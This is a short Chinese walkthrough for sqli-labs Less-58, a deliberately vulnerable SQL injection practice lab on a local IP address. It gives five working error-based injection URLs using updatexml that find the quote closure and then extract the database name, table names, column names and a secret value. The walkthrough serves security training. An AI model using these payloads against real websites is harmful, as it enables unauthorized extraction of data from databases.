






# Less - 58

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-58/?id=1'
```

​​

根据错误显示判断闭合方式为'--+，并且为字符型注入，因为这里有完整的报错信息，所以可以使用报错注入攻击

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-58/?id=1' and updatexml(1,concat(0x7e,(database()),0x7e),1)--+
```

​​

---

## 3、查看challenges库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-58/?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+
```

​​

---

## 4、查看0jphobw9pw表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-58/?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='0jphobw9pw'),0x7e),1)--+
```

​​

---

## 5、查看secret_H4GR字段下的值

---

```http
http://192.168.23.128/sqli-labs/Less-58/?id=1' and updatexml(1,concat(0x7e,(select group_concat(secret_H4GR) from challenges.0jphobw9pw),0x7e),1)--+
```

​​

​​

‍
